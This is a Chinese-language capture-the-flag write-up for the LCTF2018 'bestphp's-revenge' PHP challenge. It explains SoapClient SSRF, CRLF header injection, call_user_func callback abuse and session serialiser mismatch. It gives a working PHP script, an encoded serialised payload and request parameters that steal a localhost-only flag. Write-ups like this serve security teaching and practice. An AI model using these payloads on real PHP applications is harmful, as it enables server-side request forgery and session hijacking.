







# bestphp's-revenge

参考博客：https://www.cnblogs.com/NPFS/p/14335370.html

# 知识点

## 一. SoapClient

**SOAP是webService三要素（SOAP、WSDL(WebServicesDescriptionLanguage)、UDDI(UniversalDescriptionDiscovery andIntegration)）之一：WSDL 用来描述如何访问具体的接口， UDDI用来管理，分发，查询webService ，SOAP（简单对象访问协议）是连接或Web服务或客户端和Web服务之间的接口。其采用HTTP作为底层通讯协议，XML作为数据传送的格式。**
**SoapClient类可以创建soap数据报文，与wsdl接口进行交互。**



第一个参数的意思是：控制是否是wsdl模式，如果为NULL，就是非wsdl模式.如果是非wsdl模式，反序列化的时候就会对options中的url进行远程soap请求，第二个参数的意思是：一个数组，里面是soap请求的一些参数和属性。

用法实例：

```
<?php
$a = new SoapClient(null,array(location'=>'http://example.com:2333','uri'=>'123'));
$b = serialize($a);
echo $b;
$c = unserialize($b);
$c->a();
```

可以利用 **SoapClient** 类的 **__call** （当调用对象中不存在的方法会自动调用此方法）方法来进行 **SSRF**



---

## 二. CRLF Injection漏洞

**首先要对HTTPheaders 和 HTTPbody 要有一些基本的了解，如图，它们之前用空行区分**



**CRLF是”回车+换行”（\r\n）的简称。在HTTP协议中，HTTPHeader与HTTPBody是用两个CRLF分隔的，浏览器就是根据这两个CRLF来取出HTTP内容并显示出来。所以，一旦我们能够控制HTTP消息头中的字符，注入一些恶意的换行，这样我们就能注入一些会话Cookie或者HTML代码，所以CRLFInjection又叫HTTPResponseSplitting，简称HRS。**
 **简单来说**
 **http请求遇到两个\r\n即%0d%0a，会将前半部分当做头部解析，而将剩下的部分当做体，当我们可以控制User-Agent的值时，头部可控，就可以注入crlf实现修改http请求包。**

```
<?php
$target = "http://localhost:2333";
$options = array(
    "location" => $target,
    "user_agent" => "mochazz\r\nCookie: PHPSESSID=123123\r\n",
    "uri" => "demo"
);
$attack = new SoapClient(null,$options);
$payload = serialize($attack);
unserialize($payload)->ff(); // 调用一个不存在的ff方法，会触发__call方法，发出HTTP请求
?>
```

得到如下

```
→/home nc - lvp 2333
listening on [any] 2333
connect to [127.0.0.1] from localhost [127.0.0.1] 42022
POST / HTTP/1.1
Host: localhost :2333
Connection: Keep-Alive
User -Agent: mochazz
Cookie: PHPSESSID= 123123    

Content-Type: text/xml; charset=utf-8
SOAPAction: "demo#a"
Content-Length: 365

<?xml version="1.0" encoding="UTF-8"?> 
<S0AP- ENV:Envelope xmlns: S0AP- ENV= "http:/ /schemas . xmlsoap . org/ soap/envelope/" xmlns:ns1="demo" xmIns :xsd="http:/ /www .w3.org/
2001/XMLSchema" xmIns : SOAP -ENC="http://schemas .xmlsoap .or g/soap/ encoding/" SOAP- ENV:encodingStyle="http://schemas .xmlsoap.og/ soap/ encoding/"><S0AP - ENV : Body><ns1 :a/></S0AP - ENV: Body></S0AP ENV: Envelope>
```

---

## 三. call_user_func

**call_user_func函数中的参数可以是一个数组，数组中第一个元素为类名，第二个元素为类方法。**

先传入extract()，将$b覆盖成回调函数，这样题目中的 **call_user_func($b,$a)** 就可以变成 **call_user_func(‘call_user_func’,array(‘SoapClient’,’welcome_to_the_lctf2018’))** ，即调用 **SoapClient** 类不存在的 **welcome_to_the_lctf2018** 方法，从而触发 **__call** 方法发起 **soap** 请求进行 **SSRF** 。

---

## 四. PHPsession 反序列化

| Directive                       | 含义                                               |
| ------------------------------- | -------------------------------------------------- |
| session.save_handler            | session保存形式。默认为files                       |
| session.save_path               | session保存路径。                                  |
| session.serialize_handler       | session序列化存储所用处理器。默认为php。           |
| session.upload_progress.cleanup | 一旦读取了所有POST数据，立即清除进度信息。默认开启 |
| session.upload_progress.enabled | 将上传文件的进度信息存在session中。默认开启。      |

我们先通过一个样例代码，看看3种不同的 **session** 序列化处理器处理 **session** 的情况。

```php
<?php
session_start();
$_SESSION['name'] = 'mochazz';
?>
```

当 **session.serialize_handler=php** 时，session文件内容为： `name|s:7:"mochazz";`

当 **session.serialize_handler=php_serialize** 时，session文件为： `a:1:{s:4:"name";s:7:"mochazz";}`

当 **session.serialize_handler=php_binary** 时，session文件内容为： `二进制字符names:7:"mochazz";`

**而当session反序列化和序列化时候使用不同引擎的时候，即可触发漏洞**

**php引擎会以|作为作为key和value的分隔符，我们在传入内容的时候，比如传入**

```bash
$_SESSION[‘name’] = ‘|username‘
```

**那么使用php_serialize引擎时可以得到序列化内容**

```css
a:1:{s:4:”name”;s:4:”|username”;}
```

**然后用php引擎反序列化时，|被当做分隔符，于是**

```css
a:1:{s:4:”name”;s:4:”
```

**被当作key**

```undefined
username
```

**被当做vaule进行反序列化**

**于是，我们只要传入**

```bash
$_SESSION[‘name’] = |序列化内容
```

**即可触发漏洞**

知识点结束。

# 解题分析

分析一下题目

```
<?php
highlight_file(__FILE__);
$b = 'implode';
call_user_func($_GET['f'], $_POST);  //参数二的位置固定为 $_POST 数组，我们很容易便想到利用 extract 函数进行变量覆盖，以便配合后续利用
session_start();
if (isset($_GET['name'])) {
    $_SESSION['name'] = $_GET['name'];
}   //存在 session 伪造漏洞，我们可以考虑是否可以包含 session 文件或者利用 session 反序列化漏洞
var_dump($_SESSION);
$a = array(reset($_SESSION), 'welcome_to_the_lctf2018');
call_user_func($b, $a);
?>
array(0) { }


//flag.php  (扫目录扫到的)
only localhost can get flag!session_start();
echo 'only localhost can get flag!';
$flag = 'LCTF{*************************}';
if($_SERVER["REMOTE_ADDR"]==="127.0.0.1"){
       $_SESSION['flag'] = $flag;
   }
only localhost can get flag!
```

分析一下代码，flag.php文件告诉我们，只有127.0.0.1请求该页面才能得到flag，所以明显是考察SSRF漏洞，这里我们可以利用SoapClient类的__call方法来进行SSRF

第一步：由于PHP中的原生 SoapClient类存在CRLF漏洞，所以我们可以伪造任意header，构造SoapClient类，并用php_serialize引擎进行序列化，存入session

**PHP 7 中 session_start () 函数可以接收一个数组作为参数，可以覆盖 php.ini 中 session 的配置项。这个特性也引入了一个新的 php.ini 设置（session.lazy_write）**

我们可以利用回调函数，通过给f传参，值为session_start，然后post提交   `array('serialize_handler'=>'php_serialize')`

即达到**session_start(array('serialize_handler' => 'php_serialize'))** ，将会根据php7特性设置session.serialize_handler=php_serialize。而又因为session是可控的，可以通过传入name值，任意伪造。这里就想到name传入的是序列化值了，序列化exp

```
<?php
$target='http://127.0.0.1/flag.php';
$b = new SoapClient(null,array('location' => $target,
    'user_agent' => "npfs\r\nCookie:PHPSESSID=123456\r\n",
    'uri' => "http://127.0.0.1/"));

$se = serialize($b);
echo "|".urlencode($se);

//注意下，这个脚本想要执行，需要将php.ini里的 php_soap.dll 前面的分号去掉
```

执行脚本得到

```
|O%3A10%3A%22SoapClient%22%3A4%3A%7Bs%3A3%3A%22uri%22%3Bs%3A17%3A%22http%3A%2F%2F127.0.0.1%2F%22%3Bs%3A8%3A%22location%22%3Bs%3A25%3A%22http%3A%2F%2F127.0.0.1%2Fflag.php%22%3Bs%3A11%3A%22_user_agent%22%3Bs%3A31%3A%22npfs%0D%0ACookie%3APHPSESSID%3D123456%0D%0A%22%3Bs%3A13%3A%22_soap_version%22%3Bi%3A1%3B%7D
```



第二步：通过变量覆盖，调用SoapClient类，从而触发__call 方法

传值f=extract&name=SoapClient      POST:b=call_user_func. 这样  call_user_func($b,$a)就变成call_user_func(‘call_user_func’,array(‘SoapClient’,’welcome_to_the_lctf2018’)) ，即调用 SoapClient 类不存在的 welcome_to_the_lctf2018 方法，从而触发 __call 方法发起 soap  请求进行 SSRF 。



第三步：将PHPSESSID改为我们在SoapClient类里设置的123456即可得到flag



总的流程如下，图来源于网络[PHP反序列化入门之session反序列化](https://mochazz.github.io/2019/01/29/PHP反序列化入门之session反序列化/#例题二)




